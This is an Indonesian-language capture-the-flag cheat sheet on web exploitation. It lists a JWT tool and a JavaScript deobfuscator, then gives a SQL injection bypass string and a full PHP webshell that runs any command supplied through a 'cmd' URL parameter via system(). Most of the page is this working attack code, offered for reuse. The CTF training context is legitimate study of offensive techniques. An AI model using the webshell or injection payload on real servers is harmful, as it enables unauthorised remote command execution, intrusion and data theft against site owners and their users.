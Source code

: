 ```yaml
---
title: Semua Tentang CTF - Kategori Web Exploitation
published: true
---
```

## Tools
Kategori Web Exploitation:
1. JWT (JSON Web Token) - https://token.dev/
2. Deobfuscate Kode JS - https://deobfuscate.io/

## Kode
SQL Injection
```sql
' OR 1=1 OR '1'='1
```

PHP Webshell (Execute Linux Command) dari [joswr1ght](gist.github.com/joswr1ght).

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
